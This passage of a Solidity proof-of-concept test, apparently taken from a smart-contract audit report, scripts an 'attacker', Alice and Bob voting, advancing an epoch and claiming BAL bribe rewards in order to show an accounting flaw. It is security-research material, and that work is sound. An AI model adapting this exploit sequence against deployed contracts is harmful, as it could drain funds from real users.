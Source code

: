 ```solidity
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](2);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        hevm.prank(attacker);
        voter.vote(tokenId1, pools, weights, 0);
        
        hevm.prank(Alice);
        voter.vote(tokenId2, pools, weights, 0);

        hevm.prank(Bob);
        voter.vote(tokenId3, pools, weights, 0);

        uint256 earnedBribes0 = IBribe(bribeAddress).earned(bal, tokenId1); 

        assertEq(earnedBribes0, 0, "no bribes should be earned yet"); 
        console2.log("earnedBribes0", earnedBribes0); 

        earnedBribes2 = IBribe(bribeAddress).earned(bal, tokenId2); 
        console2.log("earnedBribes2", earnedBribes2); 

        earnedBribes3 = IBribe(bribeAddress).earned(bal, tokenId3); 
        console2.log("earnedBribes3", earnedBribes3);
        
        console2.log("Fast forward 1 epoch"); 
        // Start second epoch
        hevm.warp(newEpoch()); 
        
        uint256 earnedBribes1 = IBribe(bribeAddress).earned(bal, tokenId1); 
        console2.log("earnedBribes1", earnedBribes1); 
        
         earnedBribes2 = IBribe(bribeAddress).earned(bal, tokenId2); 
        console2.log("earnedBribes2", earnedBribes2); 

         earnedBribes3 = IBribe(bribeAddress).earned(bal, tokenId3); 
        console2.log("earnedBribes3", earnedBribes3); 

        hevm.prank(attacker);
        voter.claimBribes(bribes, tokens, tokenId1);
        console2.log("Bal balance of attacker: %s", IERC20(bal).balanceOf(attacker)); 

        hevm.prank(Alice);
        voter.claimBribes(bribes, tokens, tokenId2);
        console2.log("Bal balance of Alice: %s", IERC20(bal).balanceOf(Alice)); 
        
        hevm.prank(Bob);
        voter.claimBribes(bribes, tokens, tokenId3); 
        console2.log("Bal balance of Bob: %s", IERC20(bal).balanceOf(Bob)); 
        console2.log("Bal balance of Bribe contract: %s", IERC20(bal).balanceOf(bribeAddress)); 

        
    }
```
